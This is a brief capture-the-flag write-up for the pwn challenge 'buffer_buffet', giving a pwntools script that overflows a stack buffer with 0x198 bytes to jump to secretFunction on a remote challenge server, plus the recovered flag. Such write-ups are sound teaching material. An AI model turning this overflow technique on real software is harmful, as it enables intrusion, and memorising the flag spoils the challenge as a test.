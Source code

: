 https://ctftime.org/event/2416

# buffer_buffet (pwn)

As an elite hacker invited to an exclusive digital banquet, you must navigate through the layers of a complex software system. Among the appetizers, main course, and dessert lies a hidden entry point that, when discovered, reveals a treasure trove of sensitive information.

nc 34.125.199.248 4056

## Solution

1) ret2win @ `secretFunction`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./vuln", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("34.125.199.248", 4056)

p.readline()

payload = b"A" * 0x198
payload += p64(elf.sym["secretFunction"])

p.sendline(payload)

p.readuntil(b"Flag: ")

flag = p.readline()

log.success(flag.decode()) # OSCTF{buff3r_buff3t_w4s_e4sy!}
```

## Flag
`OSCTF{buff3r_buff3t_w4s_e4sy!}`

smiley 2024/07/13
